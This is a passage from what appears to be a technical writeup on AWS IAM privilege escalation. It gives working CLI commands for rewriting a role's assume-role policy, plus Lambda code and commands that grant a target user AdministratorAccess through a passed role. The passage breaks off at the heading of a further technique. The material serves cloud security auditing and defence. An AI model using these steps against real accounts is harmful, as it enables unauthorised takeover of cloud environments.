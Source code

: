 ## Update a Role's AssumeRolePolicyDocument

A user with *both* the iam:UpdateAssumeRolePolicy and the sts:AssumeRole permission can update the assumer role policy document for any role, allowing them to assume it. Example:

```bash
aws iam update-assume-role-policy --role-name $TARGET_ROLE --policy-document $ASSUME_ROLE_POLICY_JSON
```

It seems like this trick really only works if the user's sts:AssumeRole permission is already quite broad.

## Pass a Role to a Lambda Function

Okay, now things are getting interesting. The attackin user need the iam:PassRole, lambda:CreateFunction, and lambda:InvokeFunction permissions. The idea is to pass a role (*any* role they want) to a Lambda new Lambda function that is configured to exploit the permissions of that role.

For example, the following Python code will promote the target user to full admin access, assuming that the Lambda function is passed a role that permits it to attach policies.

```python
import boto3

def lambda_handler(event, context):

client = boto3.client("iam")

response = client.attach_user_policy(
	UserName="TARGET_USER",
	PolicyArn="arn:aws:iam::aws:policy/AdministratorAccess"
)

return response
```

This code can then be exploited using two AWS CLI commands:

```bash
# Create the Lambda function
#
aws lambda create-function --function-name $FUNCTION_NAME --runtime python3.6 --role $LAMBDA_ROLE_ARN_TO_PASS --handler $FUNCTION_NAME.lambda_handler --code $PATH_TO_PYTHON_CODE

# Invoke the Lambda function
#
aws lambda invoke --function-name $FUNCTION_NAME $OUTPUT_FILE
```

Basically, this is a way to exploit any role that can be passed to a Lambda function that has one of the other vulnerabilities in this list.

## Pass a Role to a Lambda Function Triggered with DynamoDB
